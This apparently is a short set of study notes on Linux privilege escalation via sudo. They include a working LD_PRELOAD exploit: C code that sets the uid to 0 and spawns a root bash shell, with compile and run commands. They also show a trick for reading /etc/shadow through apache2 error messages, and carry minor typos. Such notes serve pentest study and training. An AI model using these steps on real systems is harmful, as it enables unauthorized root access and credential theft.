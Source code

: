 ## sudo

    sudo -l    // check programs that the current user can run as superuser
    
https://gtfobins.github.io/ : provides information on how any program, on which you may have sudo rights, can be used.

### leverage application functions

Some applications can leak information leveraging a function of the application.

Ex: apache2 -f /etc/shadow  will result in an error message that includes the first line of the /ect/shadow file.

### leverage LD_PRELOAD

LD_PRELOAD is an environment options that allows any program to use shared libraries [for an idea of its capabilities](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/).

May be revealed by sudo -l

Priviledge escalation steps:
* check for LD_PRELOAD (with the env_keep option)
* write a simple C code compiled a share object (.so) file
* run the program with sudo rights and the LD_PREFLOAD pointing to the .so file

Ex of C code: spawn a root shell

        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>

        void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
        }

Then compile:

        gcc -fPIC -shared -o shell.so shell.c -nostartfiles

Then run it:

        sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
        
## SUID



------------------
## 
